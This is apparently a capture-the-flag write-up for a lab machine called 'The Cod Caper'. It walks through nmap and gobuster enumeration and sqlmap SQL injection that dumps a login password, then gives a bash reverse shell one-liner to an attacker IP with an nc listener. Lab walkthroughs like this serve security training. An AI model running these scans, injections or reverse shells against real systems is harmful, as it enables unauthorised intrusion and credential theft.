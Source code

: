 # The Cod Caper


<details>
  <summary>Host Enumeration</summary>

### Host Enumeration

The first step is to see what ports and services are running on the target machine.

**🔹 Recommended tool:** `nmap`

#### Useful flags:

- `-p`  
  Used to specify which port to analyze. Can also specify a range of ports, e.g. `-p 1-1000`.

- `-sC`  
  Runs default scripts on the port — useful for basic analysis of the service running on a port.

- `-A`  
  Aggressive mode — goes all out to gather as much information as possible.


---

```bash
nmap -sCV 10.10.108.49
```

``Output``

```java
Nmap scan report for 10.10.108.49
Host is up (0.53s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.62 seconds
```

![image](https://github.com/user-attachments/assets/9ce2b1f0-4d29-4579-8124-88b380c49470)




  
</details>










<details>
  <summary>Web Enumeration</summary>


### Web Server Enumeration

Since the only services running are **SSH** and **Apache**, it is safe to assume that we should check out the web server first for possible vulnerabilities. One of the first things to do is to see what pages are available to access on the web server.

**🔹 Recommended tool:** `gobuster`

#### Useful flags:

- `-x`  
  Used to specify file extensions, e.g. `"php,txt,html"`.

- `--url`  
  Used to specify which URL to enumerate.

- `--wordlist`  
  Used to specify the wordlist that is appended to the URL path, e.g.:



---

```
gobuster dir -u http://10.10.108.49/ -w /home/kali/Downloads/wordlists/SecLists/Discovery/Web-Content/big.txt -x html,php,txt,bak -t 30
```

![image](https://github.com/user-attachments/assets/295ae41e-c3ef-4b2c-9536-160696262b01)




![image](https://github.com/user-attachments/assets/ba89a246-398d-4344-971d-664215e83f22)

![image](https://github.com/user-attachments/assets/d50560fb-708a-4bb3-990a-4c666232e558)


  
</details>





<details>
  <summary>Web Exploitation</summary>


### SQL Injection Testing

The admin page seems to give us a login form. In situations like this, it is always worth checking for **low-hanging fruit**. In the case of login forms, one of the first things to check for is **SQL Injection**.

**🔹 Recommended tool:** `sqlmap`

#### Useful flags:

- `-u`  
  Specifies which URL to attack.

- `--forms`  
  Automatically selects parameters from `<form>` elements on the page.

- `--dump`  
  Used to retrieve data from the database once SQL Injection is found.

- `-a`  
  Grabs just about everything from the database.



---


```
sqlmap -u http://Target_IP/administrator.php --dbs --forms
```

![image](https://github.com/user-attachments/assets/45c686fe-e118-42fe-a8ee-34d3ab3c3223)

```
sqlmap -r Request.txt -D users --tables users --dump
```

```
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+
```

![image](https://github.com/user-attachments/assets/2b9a5828-8faf-4bc8-9710-ad60c378b543)


![image](https://github.com/user-attachments/assets/7a52fbba-3378-4f87-ad45-47bffc08b505)

---

> after login

![image](https://github.com/user-attachments/assets/75a75609-2ec9-425d-8a12-a7899bf04bc5)


  
</details>










<details>
  <summary>Command Execution</summary>


### Post-Exploitation: Gaining Access

It seems we have gained the ability to run commands! Since this is my old PC, I should still have a user account. Let's run a few test commands, and then try to gain access!

---

#### Method 1: `nc` Reverse Shell

This machine has been outfitted with `nc`, a tool that allows you to make and receive connections and send data. It is one of the most popular tools to get a reverse shell.

➡ Some great places to find reverse shell payloads:  
- [HighOnCoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

After this, you will need to do additional enumeration to find **pingu's SSH key** or **hidden password**.

---

#### Method 2: Hidden Passwords

Assuming my father hasn't modified the machine since he took over my old PC, I should still have my hidden password stored somewhere — I don’t recall though, so you'll have to find it!

**🔹 Recommended tool:** `find`  
Allows you to search for files a specific user owns.


---


```
bash -c 'bash -i >& /dev/tcp/10.8.47.102/4444 0>&1'
```

```
nc -lvnp 4444
```

![image](https://github.com/user-attachments/assets/51333772-af4e-41db-b561-9454386a80d4)



  
</details>














































